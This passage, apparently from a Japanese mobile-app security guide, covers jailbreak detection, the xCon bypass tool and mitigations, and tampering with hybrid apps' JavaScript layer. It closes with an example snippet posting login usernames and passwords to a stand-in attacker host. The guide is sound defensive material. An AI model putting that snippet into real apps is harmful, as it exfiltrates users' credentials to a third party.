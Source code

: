   - サンドボックス化されていない動作の検出:
    ジェイルブレイクのポイントはアプリケーションのサンドボックスから脱獄することであるため、サンドボックスによって禁止されている操作を実行できるということは、ジェイルブレイクを意味している。たとえば、サンドボックス化されたプロセスが子プロセスをフォークすることは禁止されている。fork()
    を呼び出して返されたコードを確認することで、アプリがジェイルブレイクされたデバイスで実行されているかどうかを検出できる。

上記のアルゴリズムは、ジェイルブレイクされた環境を正しく検出するために必要なアルゴリズムのほんの一部である。攻撃者は、リバース
エンジニアリングや整合性侵害のさまざまな手法を使用して、特定の各アルゴリズム手法をバイパスすることができる。ジェイルブレイク検出メカニズムに対する攻撃を自動化するために、攻撃者は
xCon などの自動化ツールを利用する。xCon は、多くの iOS アプリに実装されているジェイルブレイク検出チェックを回避できるクローズド
ソース ツールである。このツールは、多くのアプリに対する攻撃に成功している。

xCon
などのツールで自動化されたジェイルブレイク検出に対する攻撃を効果的に防ぐには、ジェイルブレイクされた環境を検出する正確で完全なアルゴリズム
セットが組み込まれた検出制御を構築する必要がある。アルゴリズム
セットやその他の模索すべき点は、きわめて広範囲に及ぶ。その後、これらすべてのアルゴリズムを、リバース
エンジニアリングや整合性侵害を防止する適切な手法と組み合わせて使用する必要がある。

xCon では、適切なアルゴリズムとリバース
エンジニアリングや整合性侵害の軽減策の組み合わせで構成される多層保護の手法によってセキュリティが確保されているアプリは攻略できない。

### 技術的な推奨事項

完全でバランスの取れたジェイルブレイク検出ルーチンを実装していないというリスクを軽減するには、以下の実施を検討すること。

  - メソッドのスウィズルを防止するリスク軽減策に従って、攻撃者が既に実装されているジェイルブレイク検出制御を弱体化できないようにする。



  - 分岐エラーを防止するリスク軽減策に従って、攻撃者がジェイルブレイク検出に関連する制御フローに不正な変更を追加できないようにする。



  - xCon などのさまざまなジェイルブレイク コミュニティを通じて開示されている適切なジェイルブレイク検出アルゴリズムをすべて実装する。

## プレゼンテーション層の変更

### 説明

ハイブリッド アプリの場合、アプリケーションには、一般に Java または Objective-C で記述される外殻が含まれる。内殻には、一般に
HTML、JavaScript、および CSS ファイルとして開示されるプレゼンテーション
ファイルのセットが含まれる。攻撃者は、これらのプレゼンテーション層ファイルを変更して、JavaScript
の変更または追加によって不正な操作が実行されるようにする場合がある。

### 技術的な説明

攻撃者は、モバイル コンピューティング環境内で外部コードを実行するために、ハイブリッド アプリ内の JavaScript
ファイルを変更する場合がある。このようなシナリオでは、攻撃者はローカルのドキュメント
オブジェクト モデル (DOM) へのフル アクセスを持ち、DOM
から入手できる任意の情報を攻撃者のサイトに無許可で渡すことができる。

次のコード変更では、攻撃者は、モバイル アプリケーションの環境内で実行されるローカルの JavaScript ファイルを変更している。

`$.post("`<http://maliciousSite.com>`",`
`      { username:loginUsername, password:loginPassword },`
`        function(data) {`
`                       alert("Response:" + data);`
`                       }`
`      );`
